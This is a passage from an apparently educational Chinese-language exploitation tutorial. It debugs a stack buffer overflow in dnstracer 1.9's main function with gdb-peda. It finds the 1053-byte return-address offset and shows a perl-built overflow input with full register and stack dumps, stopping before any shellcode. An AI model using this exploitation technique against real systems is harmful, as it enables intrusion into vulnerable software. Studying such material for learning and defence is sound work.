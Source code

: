 因为漏洞发生在 main 函数中，堆栈的布置比起在子函数里也要复杂一些。大体过程和前面写过的一篇 wget 溢出漏洞差不多，但那一篇是 64 位程序，所以这里选择展示一下 32 位程序。

在 gdb 里进行调试，利用 pattern 确定溢出位置，1060 字节就足够了：
```
gdb-peda$ pattern_create 1060
gdb-peda$ pattern_offset $ebp
1849771630 found at offset: 1049
```
所以返回地址位于栈偏移 `1049+4=1053` 的地方。

在 `strcpy(argv0, argv[0]);` 处下断点，并根据偏移调整输入：
```
gdb-peda$ b *main+789
gdb-peda$ b *main+794
gdb-peda$ r `perl -e 'print "A"x1053 . "BBBB"'`
Starting program: /home/firmy/dnstracer-1.9/dnstracer `perl -e 'print "A"x1053 . "BBBB"'`
[----------------------------------registers-----------------------------------]
EAX: 0x1 
EBX: 0xbfffe6bf --> 0x400 
ECX: 0xffffffff 
EDX: 0xb7fba17c --> 0x0 
ESI: 0x0 
EDI: 0xbfffedb3 ('A' <repeats 200 times>...)
EBP: 0xbfffead8 --> 0x0 
ESP: 0xbfffe290 --> 0xbfffe6bf --> 0x400 
EIP: 0x8048db5 (<main+789>:	call   0x8048920 <strcpy@plt>)
EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048db2 <main+786>:	push   ecx
   0x8048db3 <main+787>:	push   edi
   0x8048db4 <main+788>:	push   ebx
=> 0x8048db5 <main+789>:	call   0x8048920 <strcpy@plt>
   0x8048dba <main+794>:	mov    ecx,DWORD PTR [ebp-0x82c]
   0x8048dc0 <main+800>:	xor    eax,eax
   0x8048dc2 <main+802>:	add    esp,0x10
   0x8048dc5 <main+805>:	repnz scas al,BYTE PTR es:[edi]
Guessed arguments:
arg[0]: 0xbfffe6bf --> 0x400 
arg[1]: 0xbfffedb3 ('A' <repeats 200 times>...)
arg[2]: 0xffffffff 
arg[3]: 0xffffffff 
[------------------------------------stack-------------------------------------]
0000| 0xbfffe290 --> 0xbfffe6bf --> 0x400 
0004| 0xbfffe294 --> 0xbfffedb3 ('A' <repeats 200 times>...)
0008| 0xbfffe298 --> 0xffffffff 
0012| 0xbfffe29c --> 0xffffffff 
0016| 0xbfffe2a0 --> 0x0 
0020| 0xbfffe2a4 --> 0x0 
0024| 0xbfffe2a8 --> 0x8051018 ("127.0.1.1")
0028| 0xbfffe2ac --> 0xffffffff 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x08048db5 in main (argc=<optimized out>, argv=<optimized out>)
    at dnstracer.c:1622
1622	    strcpy(argv0, argv[0]);
gdb-peda$ x/10wx argv0
0xbfffe6bf:	0x00000400	0x00000700	0x1af23c00	0x1b023c00
0xbfffe6cf:	0x1b023c00	0x00000800	0x00004800	0x00000400
0xbfffe6df:	0x00000400	0x74e55000
```
所以栈位于 `0xbfffe6bf`，执行这一行语句即可将 `0xbfffedb3` 处的 "A" 字符串复制到 `argv0` 数组中：
```
gdb-peda$ c
Continuing.
```